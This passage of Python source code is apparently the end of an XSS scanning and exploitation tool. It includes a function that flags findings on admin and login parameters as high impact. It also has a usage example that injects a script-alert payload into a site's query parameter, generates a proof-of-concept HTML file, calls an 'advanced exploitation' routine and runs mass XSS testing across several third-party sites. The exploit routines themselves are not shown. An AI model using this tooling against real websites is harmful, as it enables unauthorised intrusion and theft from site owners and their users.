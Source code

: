 ```python
        high_impact = []
        
        for result in self.results:
            for param_results in result['vulnerabilities']:
                for param, vulns in param_results.items():
                    for vuln in vulns:
                        # Check for high-impact indicators
                        if ('admin' in result['target'].lower() or 
                            'login' in param.lower() or
                            vuln.get('method') == 'POST'):
                            
                            high_impact.append({
                                'target': result['target'],
                                'parameter': param,
                                'payload': vuln['payload'],
                                'impact_reason': 'Administrative interface or stored XSS'
                            })
        
        return high_impact

# Usage Example
if __name__ == "__main__":
    # Single target XSS testing
    scanner = AdvancedXSSScanner("http://vulnerable-site.com/search")
    
    # Test specific parameter
    result = scanner.test_xss_payload('q', '<script>alert("XSS")</script>')
    if result['vulnerable']:
        print(f"XSS Found: {result}")
        
        # Generate PoC
        poc = scanner.generate_xss_poc(result)
        with open('xss_poc.html', 'w') as f:
            f.write(poc)
        
        # Advanced exploitation
        exploits = scanner.advanced_xss_exploitation(result)
        print(f"Available exploits: {list(exploits.keys())}")
    
    # Comprehensive testing
    parameters = ['q', 'search', 'name', 'comment']
    comprehensive_results = scanner.comprehensive_xss_test(parameters)
    
    print(f"Comprehensive test completed. Found vulnerabilities in {len(comprehensive_results)} parameters")
    
    # Mass testing
    targets = [
        "http://site1.com/search",
        "http://site2.com/contact",
        "http://site3.com/feedback"
    ]
    
    automation = XSSAutomationSuite(targets)
    mass_results = automation.run_mass_xss_testing()
    
    print(f"Mass XSS testing completed:")
    print(f"Targets tested: {mass_results['total_targets_tested']}")
    print(f"Vulnerable targets: {mass_results['vulnerable_targets']}")
    print(f"Total vulnerabilities: {mass_results['total_vulnerabilities']}")
```

---
